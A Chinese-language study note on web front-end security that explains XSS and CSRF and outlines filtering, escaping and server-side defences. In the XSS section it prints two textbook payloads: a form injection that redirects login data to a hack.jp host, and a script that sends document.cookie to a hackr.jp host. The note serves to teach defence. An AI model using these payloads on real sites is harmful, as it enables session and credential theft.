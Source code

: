 # Web 前端安全

__前言:__网络安全一直是风口浪尖，尤其这几年随着前端的发展和变化，前端的安全问题日益突出多学习。参考：《图解HTTP》

## XSS 跨站脚本攻击

>定义：

* Cross-Site Scripting 指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或js运行的一种攻击

>特点：

* 攻击者利用预先设置的陷阱触发的被动攻击
* 在动态生成HTML处生成

>场景：

* 登陆页表单验证

```HTML
ID <input type="text" name="ID" value=""><script> var f = document.getElementById("login"); f.action = "http://hack.jp/pwget";f.method = "get";</script><span s="" />
```

* 恶意构造脚本，窃取用户的Cookie信息

```HTML
<script src="http://hacker.jp/xss.js">
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```
补充：[有关编码函数escape](https://www.cnblogs.com/season-huang/p/3439277.html)

[讲的比较好的博文](https://blog.csdn.net/ghsau/article/details/17027893)

>代码层面的解决思路

首先要列出一份黑白名单，白名单放行，黑名单的话需要检测与拦截，
接下来的防范措施分4步：

1、识别内联脚本进行拦截
比如去寻找某标签中内嵌的"javascript:alert(1)"这种要用正则识别出来并且改成"javascript:void(0)",

2、重点字符如'<>',"",进行过滤转化为&lt,&gt,&quot等实体(比如我看到的腾讯官网在写简历的时候连双引号都给滤掉了)

3、重写document.write、apply、call等方法使其不能被篡改。

4、受到攻击时发邮件给程序员并完善黑名单。。。。（这种能发现的攻击就是已经被滤掉了的，只能完善黑名单，但并不能使本身系统变完善）

补充：白名单指的是允许的标签或属性等字段(黑名单相反)

[httphijack库解析](http://sbco.cc/2016/08/16/httphijack/)

## CSRF 跨站点请求伪造

>定义：

* 攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。

>过程理解(以留言板为实际场景举例)

* 用户在留言板登陆，认证通过得到cookie：sid

* 攻击者在留言板上留下含恶意代码的评论如：

    ```HTML
    <img src="http://example.com/msg?q=你好">
    ```

* 用户触发陷阱，攻击者利用用户的权限发表用户非主观的动作（也就相当于是冒用别人的名义做一些事情），因为此时用户的浏览器的Cookie持有已认证的会话ID。

[淘宝某工程师的解析](https://cnodejs.org/topic/4fb3bb6f1975fe1e13302cc7)

>代码层面的解决思路

不同的解决方案都有一个本质，那就是在客户端发送一个可以说加密也可以说复杂化的验证信息与服务器端的相对应才允许请求发送，这个真正有效且强大的方案还是要在服务器端进行，切图仔前辈在介绍xss攻击时也说到过高明的攻击会绕过前端的一切攻击。。。。

## 未完待续
